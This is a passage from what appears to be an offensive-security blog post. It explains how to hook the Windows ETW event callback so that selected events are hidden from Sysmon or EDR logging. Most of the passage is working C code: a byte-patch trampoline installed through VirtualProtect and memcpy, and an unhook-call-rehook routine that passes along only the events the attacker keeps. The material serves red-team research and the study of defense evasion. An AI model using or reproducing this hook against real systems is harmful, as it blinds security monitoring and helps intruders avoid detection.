 Once we have the offset we will make a copy of the bytes located there with a call to `memcpy`

```
memcpy(OriginalBytes, lpCallbackOffset, 50);
```

Then apply a hook to redirect all the calls to `EtwEventCallback` to `EtwCallbackHook`

```
VOID HookEtwCallback()
{
    DWORD oldProtect, oldOldProtect;

    unsigned char boing[] = { 0x49, 0xbb, 0xde, 0xad, 0xc0, 0xde, 0xde, 0xad, 0xc0, 0xde, 0x41, 0xff, 0xe3 };

    *(void **)(boing + 2) = &EtwCallbackHook;

    VirtualProtect(lpCallbackOffset, 13, PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(lpCallbackOffset, boing, sizeof(boing));
    VirtualProtect(lpCallbackOffset, 13, oldProtect, &oldOldProtect);

    return;
}
```

I'm going to skip going into details about parsing `EventRecord->UserData` as it could be a whole blog post on its own, but if you are interested you can see my implementation [here](https://github.com/bats3c/EvtMute/blob/master/EvtMute/EvtMuteHook/dllmain.cpp#L132).

Now having hooked the callback is all good, but we still need to be able to report events we don't want to block. This means we are going to also have to restore and run the callback so the event is reported, then re-hook it so we can catch the next event.

Using a `typedef` makes doing this pretty straight forward.

```
typedef VOID(WINAPI * EtwEventCallback_) (EVENT_RECORD *EventRecord);

VOID DoOriginalEtwCallback( EVENT_RECORD *EventRecord )
{
    DWORD dwOldProtect;

    VirtualProtect(lpCallbackOffset, sizeof(OriginalBytes), PAGE_EXECUTE_READWRITE, &dwOldProtect);
    memcpy(lpCallbackOffset, OriginalBytes, sizeof(OriginalBytes));
    VirtualProtect(lpCallbackOffset, sizeof(OriginalBytes), dwOldProtect, &dwOldProtect);

    EtwEventCallback_ EtwEventCallback = (EtwEventCallback_)lpCallbackOffset;

    EtwEventCallback(EventRecord);

    HookEtwCallback();
}
```

After doing all of the we are now able to find the offset of the ETW callback, hook it to our own and parse the data. Then unpatch the callback and report the event.
